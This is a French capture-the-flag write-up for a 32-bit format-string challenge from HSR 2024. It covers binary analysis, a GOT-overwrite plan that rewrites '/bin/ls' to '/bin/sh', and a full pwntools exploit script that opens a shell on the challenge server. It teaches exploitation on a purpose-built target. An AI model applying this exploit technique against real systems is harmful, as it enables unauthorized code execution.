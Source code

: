 ```yaml
---
title: Chiffrement de Beaufort -  HSR 2024
date: 2024-04-01
draft: false
categories:
  - format string
  - HSR
  - pwn
tags:
  - pwn
  - format_string
  - HSR
  - writeups
---
```

## Binary Analysis
Pour analyser le binaire, on va commencer par l'ouvrir avec un décompilo, comme **Binja**. Le binaire n'étant pas strippé, on peut s'aider des symboles pour deviner ce que fait chaque fonction.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_symbols.png)

A part la fonction *backdoor()* qui aspire à servir de fonction *win()*, le nom des fonctions ne nous apporte rien d'intéressant.
Regardons un peu plus en détail ce que fait le programme.

### Main()
Tout d'abord, la fonction *main()* va lire l'entrée standard à 2 reprises, attendant de l'utilisateur qu'il envoie une chaine de maximum 0x64 caractères. Ensuite elle va stocker ces entrées dans 2 buffers, puis appeler la fonction *beaufortCipher()* avec ces 2 buffers en paramètres.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_main1.png)

### beaufortCipher()
Quant à la fonction *cipherBeaufort()*, comme son nom l'indique, elle applique un chiffrement de **Beaufort** sur notre première input. La clé utilisée pour chiffrer le buffer est enfait notre 2ème input.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_cipher.png)

### End of main()
Une fois que notre input a été chiffrée avec la clé qu'on donne au programme, la fonction *main()* affiche le buffer chiffré, puis la clé qu'on lui a donné.
Et c'est ici que se trouve la vuln. 

En effet, le *printf()* que le programme appel pour afficher notre clé prend directement la clé comme premier argument. Ainsi notre input (la clé) est interpetée, par *printf()*, comme étant le formatteur.
Le programme est donc vulnérable à une format string.

![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_main2.png)

## Theorycraft
Maintenant réfléchissons à comment on va exploiter la vuln. Si on fait un **checksec**, on remarque que le binaire n'a ni **PIE**, ni **RelRO**.
```sh title:checksec
Canary  :    ✘ 
NX      :    ✓ 
PIE     :    ✘ 
Fortify :    ✘ 
RelRO   :    Partial
```

Dans tous les cas on part du principe que **l'ASLR** est actif. De plus, comme le chall est en remote, on a pas les détails de l'environnement dans lequel run le binaire, donc c'est trop foireux de se baser sur des adresses hardcodées de la stack.

Par contre, l'abscence de **RelRO** et de **PIE** nous permet non seulement de localiser la **GOT** à coup sûr, mais aussi d'y accéder en écriture. On peut donc envisager d'overwrite certaines entrées de la GOT afin d'obtenir notre shell.

Enfin on a une fonction *backdoor()* qui lance un *system("/bin/ls")*. La string *"/bin/ls"* étant dans la section *.data*, on peut la changer pour *"/bin/sh"* avant de rediriger le flow d'execution vers *backdoor()*.
## Exploitation
Notre exploit va se faire en 3 étapes:
1) Trouver à quel offset notre input se trouve sur la stack, au moment du call à *printf()*
2) Overwrite *"/bin/ls"* avec *"/bin/sh"*
3) Overwrite l'entrée de *exit()* dans la **GOT** avec l'adresse de *backup()*

### Input offset
Pour trouver l'offset, tout ce qu'on a à faire est de lancer le programme, **break** au moment du *printf()* vulnérable et regarder à quelle distance de **$ESP** se trouve notre input. Pour repérer facilement notre input, on va envoyer *"aaaaaaa..."* comme clé.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_gdb.png)

On voit que notre input est à $0$x$78$ bytes de **$ESP**, soit en 32 bits, $30*4$ bytes. Notre offset est donc 30.

### The Exploit
Pour ce qui est de l'exploit, on va utiliser le module *fmtstr* de *Pwntools* et plus particulièrement la fonction *fmtstr_payload()*. Il nous suffit simplement de lui passer comme argument l'offset de notre input ainsi qu'un dictionnaire des adresses et des valeurs qu'on souhaite écrire.

```py
payload = fmtstr_payload(30, writes) 
print(payload)
```

L'adresse de *"/bin/ls"* est *0x0804c024*. On va donc écrire *"sh"* à *0x0804c029*, ce qui nous donnera *"/bin/sh"*.
Enfin on va réécrire l'entrée de *exit()* dans la **GOT** par l'adresse de la fonction *backup()*.

```py
writes = { 0x0804c029: 0x00006873, 
		   elfexe.got['exit']: elfexe.sym['backdoor']}
```

Ce qui donne comme exploit final :
```py title:exploit.py
#!/usr/bin/python3.9 
from pwn import * 

context.binary = elfexe = ELF('./beaufort.bin')

def start(argv=[], *a, **kw): 
	'''Start the exploit against the target.''' 
	elf_path = elfexe.path 
	
	if args.REMOTE: 
		remote_server = '10.22.148.11'
		remote_port = 1341
		target = remote(remote_server, remote_port) 
	else:  
		target = process([elf_path] + argv, *a, **kw) 
	
	return target 
		
#=========================================================== 
# EXPLOIT GOES HERE 
#=========================================================== 
def pad(payload): 
	return payload+b'_'*(0x64-len(payload)) 
	
arguments = [] 
io = start(arguments) 

writes = {0x0804c029: 0x00006873, 
		  elfexe.got['exit']: elfexe.sym['backdoor']} 

payload = b"A"*0x60 
io.sendline(payload) 

payload = fmtstr_payload(30, writes) 
payload = pad(payload) 

print(payload) 
io.sendline(payload) 

io.interactive()
io.close()
```
